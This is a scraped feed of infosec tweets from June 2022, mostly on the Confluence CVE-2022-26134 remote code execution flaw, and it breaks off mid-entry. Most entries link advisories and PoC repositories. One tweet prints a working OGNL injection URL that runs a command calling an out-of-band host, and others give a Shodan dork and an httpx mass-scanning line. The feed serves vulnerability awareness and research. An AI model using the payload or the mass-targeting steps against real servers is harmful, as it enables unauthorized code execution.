# pythontrending
**https://twitter.com/pythontrending/status/1534119365653700608 _at 2022-06-07 10:25:33_**
<blockquote>
CVE-2022-26134 - [PoC] Atlassian Confluence (CVE-2022-26134) - Unauthenticated OGNL injection vulnerability (RCE) https://t.co/LVeRYialxM
</blockquote>

* http://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1533927736888238090 _at 2022-06-06 21:44:06_**
<blockquote>
Got a spot in Mozilla Hall of Fame (1st Quarter 2022) by reporting CVE-2022-26381 (Mozilla Firefox textPath Element Use-After-Free Remote Code Execution Vulnerability):
https://t.co/RKW4yefPVL
</blockquote>

* https://www.mozilla.org/en-US/security/bug-bounty/hall-of-fame/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1533886478291714049 _at 2022-06-06 19:00:09_**
<blockquote>
Technical Analysis and Exploitation of CVE-2022-26134, critical unauthenticated RCE in Confluence, by @rapid7  

https://t.co/3xQzizl2ko

#infosec #cybersecurity #bugbounty #pentest https://t.co/Mi65pQKUaL
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1533805332409069568 _at 2022-06-06 13:37:42_**
<blockquote>
🦥 Everyone learned to run pip install colorama to exploit Atlassian Confluence RCE (CVE-2022-26134), so let’s see how the vulnerability works under the hood.

Here we show our simplified payload which demonstrates a workflow inside the vulnerable code ⤵️ https://t.co/szijIM84hd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# ollieatnccgroup
**https://twitter.com/ollieatnccgroup/status/1533765228072148994 _at 2022-06-06 10:58:21_**
<blockquote>
/r/blueteamsec are now running one of our now (infamous?) threads on CVE-2022-26134 aka the Confluence Zero Day - with technical analysis, exploits, active exploitation updates, detections and more.. 

https://t.co/dHEkcymrkf
</blockquote>

* https://www.reddit.com/r/blueteamsec/comments/v56qin/cve202226134_confluence_zero_day_remote_code/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# xAmmar09
**https://twitter.com/xAmmar09/status/1533609878547218432 _at 2022-06-06 00:41:02_**
<blockquote>
Researchers have uncovered a critical unpatched RCE #vulnerability (CVE-2022-26134) affecting #Atlassian Confluence Server and Data Center products that is being actively exploited by hackers.

CVE-2022-26134: Atlassian Confluence RCE 
Tool :
https://t.co/Z5qdHvhbqC
Poc:
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# PadsalaTushal
**https://twitter.com/PadsalaTushal/status/1533477798102573056 _at 2022-06-05 15:56:12_**
<blockquote>
CVE-2022-26134: Atlassian Confluence RCE 
Shodan Dork: 
http.component:"Confluence"
Tool :
https://t.co/dzfJvoEdby
Poc:

#bugbounty #bugbountytips  #infosec #bugbountytips 
#CVE #atlassian #RCE https://t.co/dYkG1CrdSS
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---

# 0dayCTF
**https://twitter.com/0dayCTF/status/1533468577080262657 _at 2022-06-05 15:19:33_**
<blockquote>
NotionTerm - Embedded Reverse Shell in Notion
-
Encrypted and authenticated remote shell in a page. Great for a PoC / Demonstration of RCE.
-
Repo: https://t.co/OQDJl35SJq
-
Creator: Ariary
-
#cybersecuritytips #infosec #CTF #bugbountytips https://t.co/5thWVFoChR
</blockquote>

* https://github.com/ariary/notionterm

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# S0ufi4n3
**https://twitter.com/S0ufi4n3/status/1533051998077067267 _at 2022-06-04 11:44:13_**
<blockquote>
Confluence RCE (CVE-2022-26134)
Poc:

{{BaseURL}}/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22nslookup%20{{interactsh-url}}%22%29%7D/
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>163</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1533025788672593920 _at 2022-06-04 10:00:04_**
<blockquote>
CVE-2022-26134  Confluence RCE exploit automation :

httpx -l list.txt  -paths path.txt  -match-string "gid="
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>346</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1532941237405499392 _at 2022-06-04 04:24:06_**
<blockquote>
Atlassian Confluence (CVE-2022-26134) - Unauthenticated Remote Code Execution (RCE)
URL：https://t.co/OXIOSvXHL4
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>191</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1532887542722269184 _at 2022-06-04 00:50:44_**
<blockquote>
Very simple POC for Atlassian Confluence Pre-Auth OGNL Injection &amp;&amp; RCE (CVE-2022-26134)
Setup a pre-built environment to test it in 5 seconds: https://t.co/oH6GJ1mel1
Why 5 minutes not 10 seconds? Because you should apply a trial license from Atlassian😂#vulhub https://t.co/CS1EVOHbKg
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>193</code></td>
<td>Favorites: <code>550</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1532844850298597376 _at 2022-06-03 22:01:05_**
<blockquote>
⚠️ CVE-2022-26134 event detected ⚠️

Source IP:
193.106.191.48 (🇷🇺)

Target:
Atlassian Confluence servers vulnerable to unauthenticated remote code execution (https://t.co/mZ6pPfOBws)

Last seen:
2022-06-03T21:32:10Z
#threatintel
</blockquote>

* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# Naqwada_
**https://twitter.com/Naqwada_/status/1532840017894469632 _at 2022-06-03 21:41:53_**
<blockquote>
CVE-2022-26134 - Script PoC that exploit the remote code execution vulnerability affecting Atlassian Confluence products 7.18.1 and under. This vulnerability is exploitable without requiring authentication!

#Confluence  #Atlassian #infosec #0day #PoC
https://t.co/HUylvXQ6i0
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# naglinagli
**https://twitter.com/naglinagli/status/1532818278061641731 _at 2022-06-03 20:15:30_**
<blockquote>
I wonder if releasing the Confluence RCE patch for CVE-2022-26134 within the weekend was a good idea 🤔 instead of 1 APT exploiting it in the wild now everyone got a working PoC and already mass exploit it 🤡

#BugBounty #infosec
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1532802996362526720 _at 2022-06-03 19:14:47_**
<blockquote>
It looks like CVE-2022-26134 (Unauthenticated RCE via OGNL template injection) uses the same vector as CVE-2021-26084.

Here is an attack via CVE-2021-26084 that I was checking on 2022-05-16 that allowed to create a webshell in ./confluence/testAnt.jsp

Just for comparison 🤔 https://t.co/mER1UCe5Ke
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1532802468068962304 _at 2022-06-03 19:12:41_**
<blockquote>
There is an RCE PoC for CVE-2022-26134 in this blog post. I haven't tested it yet.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# catc0n
**https://twitter.com/catc0n/status/1532800640371531777 _at 2022-06-03 19:05:25_**
<blockquote>
The Rapid7 team has a root cause analysis of Confluence CVE-2022-26134 out now with thanks to @Junior_Baines. This is an emergency mitigation situation. https://t.co/2G9H6OmJA6
</blockquote>

* https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>193</code></td>
</tr></table>

---

# NUYTSTECH
**https://twitter.com/NUYTSTECH/status/1532684533245415425 _at 2022-06-03 11:24:03_**
<blockquote>
CVE-2022-31338: Online Ordering System 2.3.2 is vulnerable to SQL Injection via /ordering/admin/user/index.php?view=edit&amp;id=. Date published : 2022-05-31 https://t.co/04U8W01ZED https://t.co/VddcJ44nUN
</blockquote>

* https://github.com/k0xx11/bug_report/blob/main/vendors/janobe/online-ordering-system/SQLi-9.md
* http://dlvr.it/SRYJS6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1532623631427194880 _at 2022-06-03 07:22:03_**
<blockquote>
"KrbRelayUp - a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings)"

#pentest #redteam #infosec
https://t.co/u6dUxHBLIs https://t.co/acWa0qwH43
</blockquote>

* https://github.com/Dec0ne/KrbRelayUp

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1532568914151976961 _at 2022-06-03 03:44:37_**
<blockquote>
Researchers have uncovered a critical unpatched RCE #vulnerability (CVE-2022-26134) affecting #Atlassian Confluence Server and Data Center products that is being actively exploited by hackers.

Read details: https://t.co/DKvtuJIUr4

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/06/hackers-exploiting-unpatched-critical.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1532498264242769925 _at 2022-06-02 23:03:53_**
<blockquote>
"When initially analyzing the exploit, Volexity noted it looked similar to previous vulnerabilities that have also been exploited in order to gain remote code execution."

"It should also be noted that CVE-2022-26134 appears to be another command injection vulnerability."

👀
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# briankrebs
**https://twitter.com/briankrebs/status/1532492461939085329 _at 2022-06-02 22:40:49_**
<blockquote>
Atlassian is warning about a zero-day in Confluence (CVE-2022-26134). This is a pre-auth, remote code execution bug. No patch yet. Atlassian credits @Volexity which reported it after responding to different victims who got shells/backdoors via this flaw. https://t.co/3AgnpQ1fB3
</blockquote>

* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>227</code></td>
</tr></table>

---

# HackingLZ
**https://twitter.com/HackingLZ/status/1532480905335345152 _at 2022-06-02 21:54:54_**
<blockquote>
Whomp whomp “Confluence Security Advisory 2022-06-02
Confluence Server and Data Center - CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability” https://t.co/LdcjCdNVSa
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1532380491311108096 _at 2022-06-02 15:15:54_**
<blockquote>
Is exploiting a null pointer deref for LPE just a pipe dream? @izobashi shows the process discovering a couple of #Bitdefender AV bugs (CVE-2021-4198/CVE-2021-4199). The exploit leads to LPE by exploiting a link following issue. https://t.co/YH9f35RU6W
</blockquote>

* https://www.zerodayinitiative.com/blog/2022/6/1/is-exploiting-a-null-pointer-deref-for-lpe-just-a-pipe-dream

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# PentestingN
**https://twitter.com/PentestingN/status/1532319569053892609 _at 2022-06-02 11:13:49_**
<blockquote>
CVE-2022-22954 PoC
 VMware Workspace ONE Access and Identity Manager RCE via SSTI.

CVE-2022-22954 - PoC SSTI

https://t.co/vYHtdsLczs

#cve #poc

https://t.co/pU5DhOLwAh https://t.co/iNr4vf6iPE
</blockquote>

* https://github.com/Chocapikk/CVE-2022-22954
* https://t.me/PentestingNews/23964

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# danusminimus
**https://twitter.com/danusminimus/status/1532306315367829505 _at 2022-06-02 10:21:09_**
<blockquote>
Recently @chvancooten approved my PR for his #Follina PoC script. You can now automatically generate RTF files weaponized with #Follina exploit using - 
https://t.co/sqetryK1bB

Cheers!
</blockquote>

* https://github.com/chvancooten/follina.py

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# TCMSecurity
**https://twitter.com/TCMSecurity/status/1532051776651788293 _at 2022-06-01 17:29:42_**
<blockquote>
